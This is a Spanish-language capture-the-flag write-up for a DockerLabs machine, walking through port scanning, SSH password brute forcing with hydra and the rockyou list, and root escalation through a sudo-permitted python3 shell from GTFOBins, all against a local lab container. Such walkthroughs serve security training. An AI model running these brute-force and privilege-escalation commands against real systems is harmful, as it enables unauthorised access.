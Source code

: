 ```yaml
---
title: Pequenas-Mentirosas
author: Ldeluq
date: 2025-01-13 14:10:00 +0800
categories:
  - Ctf
  - DockerLabs
tags:
  - ciber
render_with_liquid:
---
```

Iniciamos la Maquina

![[Pasted image 20250113213734.png]](/imagenes/Pasted%20image%2020250113213734.png)

escaneamos los puertos `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2`

![[Pasted image 20250113213859.png]](/imagenes/Pasted%20image%2020250113213859.png)

entramos al navegador 

![[Pasted image 20250113214035.png]](/imagenes/Pasted%20image%2020250113214035.png)

analizando la pista nos da un indicio que a es un usuario  use goubuster en busca de directorios pero la busqueda no arrojo nada interesante 

![[Pasted image 20250113214315.png]](/imagenes/Pasted%20image%2020250113214315.png)

procedo a realizar fuerza bruta con hydra al ssh con a como ususario  `hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2` y encontramos la contrasena secret 

![[Pasted image 20250113214619.png]](/imagenes/Pasted%20image%2020250113214619.png)

entramos por ssh con las credenciales encontradas `ssh a@172.17.0.2` y listamos los servicios con `sudo -l` no podemos con este usuario pero al navegar en los directorios encontramos que existe otro ususario spencer

![[Pasted image 20250113215032.png]](/imagenes/Pasted%20image%2020250113215032.png)

hacemos fuerza bruta con hydra con el nuevo usuario spencer `hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2` y encontramos la contrasena password1

![[Pasted image 20250113215255.png]](/imagenes/Pasted%20image%2020250113215255.png)

nos hacemos usuario spencer y listamos los servicios con `sudo -l` 

![[Pasted image 20250113215510.png]](/imagenes/Pasted%20image%2020250113215510.png)

buscamos en gtfobins como escalar privilegios en python3 

![[Pasted image 20250113215954.png]](/imagenes/Pasted%20image%2020250113215964.png)

ejecutamos `sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'` y nos hacemos root verificamos con `whoami` 


![[Pasted image 20250113220214.png]](/imagenes/Pasted%20image%2020250113220214.png)






